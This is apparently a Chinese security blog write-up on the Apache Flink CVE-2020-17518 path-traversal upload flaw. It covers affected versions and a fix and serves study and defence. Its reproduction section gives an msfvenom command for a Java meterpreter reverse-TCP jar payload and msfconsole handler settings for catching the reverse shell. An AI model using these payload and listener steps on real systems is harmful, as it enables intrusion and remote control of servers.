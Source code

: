 ```yaml
---
title: Apache Flink  cve-2020-17518
layout: post
post-image: /assets/images/apacheflink.jpg
description: Flink 在 1.5.1 版本中引入了一个 REST handler，这允许攻击者将已上传的文件写入本地任意位置的文件中，并且可通过一个恶意修改的 HTTP 头将这些文件写入到 Flink 1.5.1 可以访问的任意位置
tags:
- 内网渗透
- Coblat Strike
- 免杀
---
```



# Apache Flink  cve-2020-17518

​                                                                                                                       ——Darren    

**1.****漏洞名称**：

**apache Flink 路径遍历漏洞（上传jar包）**

 

**2.****漏洞原理**：

**Flink 在 1.5.1 版本中引入了一个 REST handler，这允许攻击者将已上传的文件写入本地任意位置的文件中，并且可通过一个恶意修改的 HTTP 头将这些文件写入到 Flink 1.5.1 可以访问的任意位置**

 

**Flink 1.5.1-1.11.2中，允许文件上传到直接上传到服务器中的任意位置中**

**在用户上传一个文件时，filename是用户可以控制的，将filename的路径于服务器路径进行拼接**

 

**3.****受影响版本****：**

**Apache Flink 1.5.1 ~ 1.11.2**

 

**4.****漏洞复现：**

访问地址

![image-20211106102216628](/assets/images/20211106/image-20211106102216628.png)

使用kali生成一个jar文件

msfvenom ‐p java/meterpreter/reverse_tcp LHOST=ip LPORT=端口 ‐f jar > 名字.jar

![image-20211106102240945](/assets/images/20211106/image-20211106102240945.png)

![image-20211106102302878](/assets/images/20211106/image-20211106102302878.png)

接着打开msfconsole 设置攻击端口以及ip

`use` exploit/multi/handler (选择攻击模块)`

`set lhost 0.0.0.0 （设置监听ip）0.0.0.0（代表监听所有流向12345的端口的流量）`

`set lport 12345 （设置监听端口）`

`set payload java/meterpreter/reverse_tcp （使用刚刚生成的payload）`

`show options` 

`run`

![image-20211106102403856](/assets/images/20211106/image-20211106102403856.png)

接着上传jar包

![image-20211106102420717](/assets/images/20211106/image-20211106102420717.png)

点击submit后，返回kali中查看反弹回来的shell

![image-20211106102434280](/assets/images/20211106/image-20211106102434280.png)

**5.****修复建议：**

升级flink的版本
